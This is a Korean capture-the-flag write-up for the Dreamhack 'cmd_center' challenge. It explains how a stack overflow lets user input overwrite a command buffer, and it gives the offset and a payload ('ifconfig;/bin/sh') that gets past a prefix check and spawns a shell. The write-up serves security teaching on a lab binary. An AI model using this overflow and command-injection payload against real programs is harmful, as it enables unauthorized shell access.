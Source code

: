 

- **인젝션(Injection)**: 악의적인 데이터를 프로그램에 입력하여 이를 시스템 명령어, 코드, 데이터베이스 쿼리 등으로 실행되게 하는 기법
- **커맨드 인젝션(Command Injection)**: 인젝션의 종류 중 하나. 시스템 명령어에 대한 인젝션을 의미함. 취약점이 발생하는 원인은 단순하지만, 매우 치명적인 공격으로 이어질 수 있음. 개발자는 사용자의 입력을 반드시 검사해야 하며, 되도록 `system` 함수의 사용을 자제해야 함.
- **메타 문자(Meta Character)**: 셸 프로그램에서 특수하게 처리하는 문자. `;`를 사용하면 여러 개의 명령어를 순서대로 실행시킬 수 있음.

워게임

cmd_center

## **[문제분석](https://keyme2003.tistory.com/entry/dreamhack-cmdcenter#%EB%AC%B8%EC%A0%9C%EB%B6%84%EC%84%9D-1)**

---

```arduino
#include <stdio.h>
#include <string.h>
#include <unistd.h>
int main()
{

        char cmd_ip[256] = "ifconfig";
        int dummy;
        char center_name[24];

        init();

        printf("Center name: ");
        read(0, center_name, 100);

        if( !strncmp(cmd_ip, "ifconfig", 8)) {
                system(cmd_ip);
        }

        else {
                printf("Something is wrong!\n");
        }
        exit(0);
}
```

**코드 분석**

1. `center_name`에 100 바이트 입력을 받는다.
2. `cmd_ip` 첫 8바이트와 `"ifconfig"`를 비교하고 일치하면 `system(cmd_ip)`를 실행한다.

`center_name`는 24 바이트 크기의 배열이지만, 100 바이트 입력을 저장할 수 있다. 따라서 `center_name` 을 벗어나는 메모리 공간에 쓰기가 가능하고 `OOB`가 발생한다.

`center_name`이 `cmd_ip` 보다 스택에서 상단에 위치하기 때문에, 100 바이트 범위 내의 `cmd_ip` 영역이 존재한다면 `cmd_ip`를 임의의 데이터로 덮을 수 있다.

만약, `cmd_ip` 를 `"/bin/sh"`로 덮는다면, `system(cmd_ip) == system("/bin/sh")`가 실행되면서 쉘을 얻을 수 있다.

하지만 `cmd_ip` 첫 8바이트 값이 `"ifconfig"`인지 검증하는 로직이 있다. 따라서 적절하게 bypass 할 수 있도록 명령어를 구성해야한다.

예를 들면,

```
ifconfig;/bin/sh
```

와 같이 명령어를 구성하면 검증을 우회하고 쉘을 실행할 수 있다.

## **[문제풀이](https://keyme2003.tistory.com/entry/dreamhack-cmdcenter#%EB%AC%B8%EC%A0%9C%ED%92%80%EC%9D%B4-1)**

---

목적은 `center_name`을 이용해서 `cmd_ip`를 `"ifconfig;/bin/sh"`으로 덮어쓰는 것이다. 따라서 `center_name ~ cmd_ip` 거리를 구해야한다.

### **○ read(0, center_name, 100)**

```
   0x0000000000000916 <+105>:   lea    rax,[rbp-0x130]
   0x000000000000091d <+112>:   mov    edx,0x64
   0x0000000000000922 <+117>:   mov    rsi,rax
   0x0000000000000925 <+120>:   mov    edi,0x0
   0x000000000000092a <+125>:   call   0x720 <read@plt>
```

### **○ system(cmd_ip)**

```
   0x000000000000094e <+161>:   lea    rax,[rbp-0x110]
   0x0000000000000955 <+168>:   mov    rdi,rax
   0x0000000000000958 <+171>:   call   0x700 <system@plt>
```

`center_name`은 `<main+105>`를 통해 `[rbp-0x130]`에 위치한다는 것을 알 수 있고 `cmd_ip`는 `<main+161>`를 통해 `[rbp-0x110]`에 위치한다는 것도 알 수 있다.

즉, `center_name ~ cmd_ip` 거리는 `0x130 - 0x110 = 0x20 = 32`이다.

그렇다면 payload는 다음과 같이 작성할 수 있다.

```csharp
[dummy] *32 + "ifconfig;/bin/sh"
```

![cmd_center.jpg](https://github.com/JoWoonJi/Dreamhack_Wargame/blob/main/SystemHacking/img/cmd_center.jpg)

플래그 획득
